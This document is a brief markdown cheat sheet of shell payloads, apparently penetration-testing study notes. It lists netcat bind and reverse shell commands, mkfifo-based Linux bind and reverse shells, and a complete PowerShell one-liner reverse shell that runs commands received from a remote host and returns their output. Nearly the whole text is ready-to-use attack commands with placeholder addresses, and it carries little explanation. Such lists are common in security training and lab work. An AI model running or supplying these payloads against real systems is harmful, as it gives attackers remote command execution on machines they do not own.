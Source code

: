 # Common Shell Payloads

- Allows you to execute a process on conncetion:

`-e`
`nc -nvlp <PORT> -e /bin/bash`

Connecting to this listener would result in a __bind shell__

`nc <LOCAL_IP> <PORT> -e /bin/bash`

Connecting to this would result in a reverse shell

This technique will work on Windows.

On Linux for bind shell:

`mkfifo /tmp/f; nc -nvlp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

Reverse shell:

`mkfifo /tmp/f; nc <LOCAL_IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

Windows Server Powershell reverse shell:

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

